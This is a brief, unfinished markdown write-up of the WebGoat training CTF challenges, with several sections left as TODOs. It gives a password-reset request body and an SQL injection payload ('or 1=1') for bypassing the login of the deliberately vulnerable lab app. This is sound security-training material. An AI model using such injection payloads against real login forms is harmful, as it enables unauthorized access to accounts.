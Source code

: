 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Challenges](#challenges)
  - [Admin lost password](#admin-lost-password)
  - [Without password](#without-password)
  - [Admin password reset](#admin-password-reset)
  - [Without account](#without-account)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# Challenges

## Admin lost password

### Welcome to the WebGoat challenge (CTF)

Brute forcing is not allowed.

### Login portal

`Reset Password` send a request with POST body `email=admin%40webgoat&token=`

\#TODO how the lesson has been completed?

## Without password

SQL injection through POST body:

```
username_login=Larry&password_login=alfa'+or+1%3D'1
```

## Admin password reset

\#TODO

## Without account

\#TODO